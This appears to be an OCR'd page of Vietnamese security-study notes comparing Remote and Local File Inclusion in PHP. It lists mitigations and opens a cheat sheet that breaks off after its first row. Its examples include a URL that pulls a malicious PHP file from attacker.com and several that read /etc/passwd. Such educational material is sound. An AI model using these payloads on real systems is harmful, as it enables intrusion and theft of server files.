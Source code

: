 | Đặc điểm             | RFI (Remote File Inclusion)                                                                                                                                                                                                                                                                                             | LFI (Local File Inclusion)                                                                                                                                                                                                                                                                                                       |
| -------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Vị trí thực thi      | Thực thi mã từ tập tin từ xa, thường từ các máy chủ khác.                                                                                                                                                                                                                                                               | Thực thi mã từ các tập tin cục bộ trên máy chủ web.                                                                                                                                                                                                                                                                              |
| Phương tiện tấn công | Sử dụng các tham số URL để chỉ định tập tin từ xa cần thực thi.                                                                                                                                                                                                                                                         | Sử dụng các tham số URL để chỉ định tập tin cục bộ trên máy chủ cần thực thi.                                                                                                                                                                                                                                                    |
| Mục đích chính       | Thường được sử dụng để chèn mã độc hại từ xa vào ứng dụng web.                                                                                                                                                                                                                                                          | Thường được sử dụng để truy cập vào các tệp cấu hình hoặc nhật ký hệ thống trên máy chủ.                                                                                                                                                                                                                                         |
| Ưu điểm              | Có thể được sử dụng để thực hiện tấn công từ xa mà không cần phải xâm nhập trực tiếp vào máy chủ.                                                                                                                                                                                                                       | Cho phép kẻ tấn công truy cập vào các tệp cục bộ trên máy chủ web một cách đơn giản.                                                                                                                                                                                                                                             |
| Ví dụ                | `http://example.com/index.php?page=http://attacker.com/malicious.php`. Trong ví dụ này, tệp index.php của trang web example.com cho phép người dùng chèn một tệp PHP từ xa thông qua tham số page. Kẻ tấn công có thể chèn một tệp PHP độc hại từ máy chủ attacker.com để thực thi mã độc hại trên máy chủ example.com. | `http://example.com/index.php?page=/etc/passwd`. Trong ví dụ này, tệp index.php của trang web example.com cho phép người dùng chèn một tệp cục bộ thông qua tham số page. Kẻ tấn công có thể chèn một tệp cục bộ như /etc/passwd, một tệp chứa danh sách các tài khoản người dùng trên máy chủ, để thu thập thông tin đăng nhập. |

### Phòng tránh

- Xác thực đầu vào chặt hơn
- Không bao gồm các trình phân tách thư mục như "/"
- Sử dụng danh sách trắng cho các file extension được cho phép
- Set `allow_url_fopen` và `allow_url_include` thành off để giới hạn việc có thể gọi các tệp tin từ xa
- Sử dụng đường dẫn file tương đối: Thay vì sử dụng đường dẫn file tuyệt đối, hãy sử dụng đường dẫn file tương đối trong quá trình bao gồm (include) file. Điều này giúp giới hạn quyền truy cập vào các file từ xa và giảm khả năng bị tấn công RFI.
- Hạn chế quyền ghi file: Đảm bảo các file trên máy chủ web chỉ có quyền ghi cần thiết. Điều này giúp hạn chế khả năng tin tặc ghi đè lên các file quan trọng và thực hiện cuộc tấn công RFI.

### CheetSheet

#### Local File Inclusion

| Local File Inclusion                                                                              | Description                                               |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                 |